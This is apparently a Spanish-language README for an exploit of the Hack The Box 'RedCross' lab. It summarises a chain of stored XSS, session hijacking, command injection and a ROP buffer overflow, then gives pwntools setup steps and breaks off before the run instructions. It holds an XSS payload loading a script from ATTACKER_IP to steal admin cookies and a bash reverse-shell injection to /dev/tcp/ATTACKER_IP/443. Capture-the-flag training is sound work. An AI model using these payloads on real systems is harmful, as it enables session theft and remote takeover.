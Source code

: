 ### 1. **Stored XSS (Cross-Site Scripting)**
- **Ubicación:** Formulario de contacto en `intra.redcross.htb`
- **Payload:** `<script src=http://ATTACKER_IP/pwned.js></script>`
- **Impacto:** Exfiltración de cookies de sesión del administrador (PHPSESSID)

### 2. **Session Hijacking**
- **Método:** Reutilización de cookies robadas vía XSS
- **Acceso logrado:** Panel de administración en `admin.redcross.htb`

### 3. **Command Injection**
- **Ubicación:** Endpoint de gestión de whitelist de IPs
- **Payload:** `; bash -c "bash -i >&/dev/tcp/ATTACKER_IP/443 0>&1"`
- **Shell obtenida:** Usuario `www-data`

### 4. **Buffer Overflow + ROP (Return-Oriented Programming)**
- **Binario vulnerable:** `/opt/iptctl/iptctl` (SUID root)
- **Protecciones:**
  - ✅ **CANARY:** disabled
  - ✅ **PIE:** disabled
  - ❌ **NX:** enabled (requiere ROP)
- **Técnica:** Cadena ROP para invocar `setuid(0)` y `execvp("sh", NULL)`
- **Shell obtenida:** Usuario `root` (UID 0)

---

##  Uso del script de explotación

### Requisitos previos

**1. Configurar entorno virtual de Python:**

```bash
# Crear entorno virtual
python3 -m venv venv

# Activar entorno virtual
source venv/bin/activate  # Linux/Mac
# O en Windows:
venv\Scripts\activate

# Instalar pwntools
pip3 install pwntools
```

**2. Asegurar acceso a la máquina:**
- Tu IP debe estar en la whitelist del firewall (vía panel `admin.redcross.htb`)
- Tener acceso SSH a la máquina objetivo con un usuario creado

### Ejecución del exploit
